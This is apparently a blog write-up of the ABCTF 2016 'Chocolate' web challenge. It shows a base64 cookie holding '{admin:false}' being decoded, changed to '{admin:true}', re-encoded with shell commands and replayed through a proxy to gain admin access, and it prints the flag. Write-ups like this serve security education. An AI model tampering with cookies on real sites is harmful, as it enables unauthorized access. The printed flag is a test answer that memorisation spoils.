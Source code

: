 ```yaml
---
layout: post
title: "ABCTF - 50 - Chocolate - Web Exploitation"
lang: en
categories:
  - security
  - writeups
tags:
  - security
  - writeups
  - ctf
  - web
date: 2016/07/23
thumbnail: /images/security-265130_640.jpg
---
```

## Informations

### Version

| By    | Version | Comment
| ---   | ---     | ---
| noraj | 1.0     | Creation

### CTF

- **Name** : ABCTF 2016
- **Website** : [http://abctf.xyz/](http://abctf.xyz/)
- **Type** : Online
- **Format** : Jeopardy - Student
- **CTF Time** : [link](https://ctftime.org/event/333)

### Description

If you could become admin you would get a flag. [Link](http://yrmyzscnvh.abctf.xyz/web3/)

## Solution

1. Launch Element Inspector of Firefox or the Firebug addon and use the network analyser.
2. See the request cookie `e2FkbWluOmZhbHNlfQ==`
3. Un-base64 it:
```
echo -n "e2FkbWluOmZhbHNlfQ==" | base64 -d && echo ""
{admin:false}
```
4. Edit the cookie and change the value to `{admin:true}` in base64
```
echo -n "{admin:true}" | base64
e2FkbWluOnRydWV9
```
5. Send it again with a proxy tool like Burp, ZAP, Temper Data
6. And TADA! We get into the admin page: `Wow! You're an admin, maybe. Well anyway, here is your flag, ABCTF{don't_trust_th3_coooki3}`
